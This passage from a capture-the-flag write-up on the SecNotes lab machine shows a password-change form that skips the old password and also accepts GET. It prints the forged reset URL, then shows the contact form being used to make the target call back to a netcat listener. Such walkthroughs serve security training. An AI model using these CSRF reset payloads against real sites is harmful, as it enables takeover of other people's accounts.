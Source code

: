 And it doesn't request for the current password
![image](https://user-images.githubusercontent.com/113513376/215295122-f2b4ce73-cdff-498f-8ffd-7d43148d06d6.png)

```
POST /change_pass.php HTTP/1.1
Host: 10.10.10.97
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://10.10.10.97
Connection: close
Referer: http://10.10.10.97/change_pass.php
Cookie: PHPSESSID=9dmr8dhm51q95gju254htu5g3c
Upgrade-Insecure-Requests: 1

password=hackme&confirm_password=hackme&submit=submit
```

It redirects to the home page
![image](https://user-images.githubusercontent.com/113513376/215295156-9f122636-8e6e-4219-a839-0d8a3976f5f0.png)

And also lets try if we can do password reset using GET http method

```
Payload: http://10.10.10.97/change_pass.php?password=plshackme&confirm_password=plshackme&submit=submit
```

It worked
![image](https://user-images.githubusercontent.com/113513376/215295213-4e4bcb1d-f08a-4f82-b653-825e5e4c27c5.png)

Lets keep on checking other functions

We see there's a contact me function
![image](https://user-images.githubusercontent.com/113513376/215295236-a67f631f-4366-4094-840f-8b6e8e18d84f.png)

And it requires a message to be sent

I'll try sending my ip

```
Payload: http://10.10.16.7/
```

And back on the netcat listener we get a connection back

```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Secnotes]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.97] 50946
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17134.228
Host: 10.10.16.7
Connection: Keep-Alive
```
